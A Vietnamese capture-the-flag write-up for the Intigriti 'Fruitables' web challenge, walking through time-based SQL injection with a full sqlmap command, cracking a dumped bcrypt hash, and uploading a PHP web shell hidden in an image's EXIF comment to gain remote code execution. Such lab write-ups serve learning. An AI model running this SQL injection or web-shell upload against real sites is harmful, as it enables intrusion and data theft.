

tiếp theo một bài blackbox khá hay

dùng thử web thì không thấy có gì đặc biệt, mình dùng `wappalazer` thu thập thông tin và biết nó code bằng php

tiến hành fuzzing


ok, `account.php`, truy cập thử nào


nó cho mình chức năng đăng kí, nhưng


nó redirect mình tới trang login này


vả luôn SQLi nhé ae

có tool ngại gì việc dùng,` sqlmap` luôn mình nhận được 1 tài khoản khả nghi (khá mất thời gian của ae đấy, ae có thể viết script có lẽ sẽ nhanh hơn)

```
└─$ sqlmap -u "https://fruitables-0.ctf.intigriti.io/auth/fruitables_login.php" --data="username=admin&password=admin" -p username --technique=T --batch --dump --time-sec=10 
```

```
username: tjfry_admin
password: $2y$10$xeRysgjnBo5gR7xm0UnekOabT./PYjZwkb0x1Qw1m1KzhuLmXlG5S
````

tuy nhiên pass bị encrypt rồi, mình cần crack. Google cho biết thì đây là mã hóa kiểu `bcrypt`. Mình dùng tiếp tool `John the ripper`


oke có username,password là `tjfry_admin:futurama`


login vào thấy có thêm chức năng upload file, mình đã test thì nó chỉ cho upload file ảnh, cần bypass để upload file php -> RCE

exploit:
1. Tạo file ảnh
2. Sử dụng tool `exiftool` để inject comment code php vào file ảnh đã tạo
3. upload file to RCE

```
exiftool -comment='<?php system($_GET[0]); ?>' a.png 
mv a.png{,.php}
```

upload file


RCE thôi nàoo


cat flag


FLAG: `INTIGRITI{fru174bl35_vuln3r4b1l17y_ch3ckm8}`


